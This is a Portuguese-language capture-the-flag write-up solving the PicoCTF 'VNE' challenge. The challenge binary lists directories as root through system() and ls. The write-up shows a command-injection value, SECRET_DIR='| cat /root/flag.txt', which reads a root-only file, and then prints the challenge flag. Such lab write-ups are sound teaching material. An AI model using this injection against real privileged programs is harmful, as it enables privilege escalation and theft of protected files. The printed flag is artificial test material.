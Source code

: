 # VNE
## Descrição do Desafio:
**Autor**: Junias Bonou \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/387?category=6&page=1) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Média \
**Data**: 2023 \
**Descrição**:
> We've got a binary that can list directories as root, try it out !!
## Passo a Passo da Solução
### 1. Entendendo como o binário funciona
Este desafio é feito por meio de conexão `ssh`, então não há nenhum arquivo para download. Com a conexão estabelecida, nós temos acesso ao bash da máquina, e no diretório do usuário há um arquivo executável `bin` que se executado de primeira vai exibir o erro:
```bash
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
```
Como próximo passo, setamos a variável `SECRET_DIR` para algum diretório e vemos qual vai ser a saída:
```bash
ctf-player@pico-chall$ export SECRET_DIR=/challenge
ctf-player@pico-chall$ ./bin
Listing the content of /challenge as root: 
config-box.py  metadata.json  profile
```
E com isso descobrimos que o arquivo lista os arquivos dentro de um diretório, conforme dito na descrição. Mas algo ainda não está claro, que é como este arquivo está listando os arquivos. Para isso podemos digitar qualquer coisa dentro da variável para ver se ocorre algum erro.
```bash
ctf-player@pico-chall$ export SECRET_DIR=---
ctf-player@pico-chall$ ./bin
Listing the content of --- as root: 
ls: unrecognized option '---'
Try 'ls --help' for more information.
Error: system() call returned non-zero value: 512
```
Pronto, descobrimos que o arquivo está usando a `syscall` do comando `ls`.
### 2. Solução
Aqui nós já sabemos quase tudo, só não sabemos onde está a **flag** e como pegar o conteúdo de um arquivo. Para encontrar a **flag** basta imprimir o conteúdo de alguns diretórios que não temos permissão para acessar, no caso a pasta `root` foi a primeira a ser testada, e lá estava o arquivo:
```bash
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
```
A parte de pegar o conteúdo de um arquivo é simples de se fazer, porque se considerarmos que o binário não está tratando o conteúdo da `SECRET_DIR`, podemos tentar passar outro comando via pipe. E por sorte, o binário não está tratando o conteúdo.
```bash
ctf-player@pico-chall$ export SECRET_DIR="| cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of | cat /root/flag.txt as root:
```
### Flag
`picoCTF{Power_t0_man!pul4t3_3nv_1670f174}`
## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
